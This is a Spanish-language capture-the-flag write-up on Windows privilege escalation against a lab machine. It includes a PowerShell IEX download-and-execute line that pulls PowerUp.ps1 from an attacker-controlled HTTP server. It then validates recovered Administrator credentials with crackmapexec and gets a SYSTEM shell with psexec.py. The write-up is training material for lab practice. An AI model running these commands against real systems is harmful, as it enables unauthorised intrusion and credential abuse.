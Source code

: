 ## Escalada de Privilegios {-}

### Rootear la maquina {-}

```bash
whoami /priv
#Output

SEImpersonatePrivilege
```

Aqui ya vemos que podemos escalar privilegios con `JuicyPotatoe.exe` o `RotenPotatoe.exe` pero S4vitar nos
muestra aqui una via alternativa de escalar privilegios en esta maquina.

```bash
git clone https://github.com/PowerShellMafia/PowerSploit
cd PowerSploit
cd Privesc
vi PowerUp.ps1
```

Aqui vamos a hacer lo mismo que con el fichero `PS.ps1`. En vez de enviarlo y despues invocarlo, matamos dos pajaros
de un tiro y añadimos el **Invoke** al final del fichero `PowerUp.ps1`

```bash
Invoke-AllChecks
```

1. Creamos un servicio web con python

    ```bash
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PowerUp.ps1')
    ```

Este script nos reporta un monton de cosas y aqui podemos ver

- SEImpersonatePrivilege
- Service UsoSvc
- encotro la contraseña para el usuario Administrator en un fichero Groups.xml

### Validamos las credenciales del usuario Administrator {-}

```bash
crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
```

Ya vemos un **[+]** y un **(Pwn3d)**. Quiere decir que podemos connectarnos al systema con `psexec`

### Conexion con psexec.py {-}

```bash
psexec.py WORKGROUP/Administrator@10.10.10.125 cmd.exe

whoami
#Output
nt authority\system
```

Ya estamos como root y podemos ver la flag ;)

> [!] NOTA: S4vitar nos enseña mas tecnicas para conectarnos en el video. Os invito a verlas a partir del minuto 1:24:20